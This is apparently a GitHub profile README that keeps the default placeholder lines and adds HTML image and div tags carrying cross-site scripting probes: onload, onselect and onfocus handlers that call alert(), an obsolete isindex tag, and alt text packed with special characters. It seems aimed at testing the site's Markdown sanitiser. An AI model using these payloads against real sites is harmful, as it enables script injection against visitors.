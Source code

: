 - 👋 Hi, I’m @falx00h
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

![text](https://avatars.githubusercontent.com/u/92805783?s=40&v=4)
![
<img src="https://avatars.githubusercontent.com/u/92805783?&s=40&v=" alt="!@#$%¨&*()_+=-{}[]?/:;>.<,\|´`^~"/>
<img src="#<frameset onload=alert(123)>" alt="onload!#$%&()*~+-_.,:;?@[/|\]^`=alert(1)"/>

<img src="https://raw.githubusercontent.com/r89shi/r89shi.github.io/master/index.html" onselect="alert(String.fromCharCode(88,83,83))"/>

<div dir=autofocus/onfocus=alert()>
  <isindex>
</div>

](()
